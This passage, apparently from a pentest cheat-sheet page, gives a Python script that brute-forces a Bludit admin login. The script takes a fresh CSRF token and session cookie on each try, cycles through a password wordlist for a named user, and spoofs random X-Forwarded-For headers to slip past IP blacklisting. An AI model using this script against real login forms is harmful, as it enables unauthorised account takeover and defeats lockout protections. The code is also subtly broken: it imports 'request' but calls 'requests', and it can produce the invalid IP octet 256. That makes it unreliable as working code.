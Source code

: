 
### CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):

```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
    #Return CSRF + Session (cookie)
    r = requests.get(URL)
    csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
    csrf = csrf.group(1)
    session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
    return csrf, session_cookie

def login(user, password):
    print(f"{user}:{password}")
    csrf, cookie = init_session()
    cookies = {SESSION_COOKIE_NAME: cookie}
    data = {
        "tokenCSRF": csrf,
        "username": user,
        "password": password,
        "save": ""
    }
    headers = {
        "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }
    r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
    if "Username or password incorrect" in r.text:
        return False
    else:
        print(f"FOUND {user} : {password}")
        return True

with open(PASS_LIST, "r") as f:
    for line in f:
        login(USER, line.strip())
```

### Tools <a href="#tools" id="tools"></a>
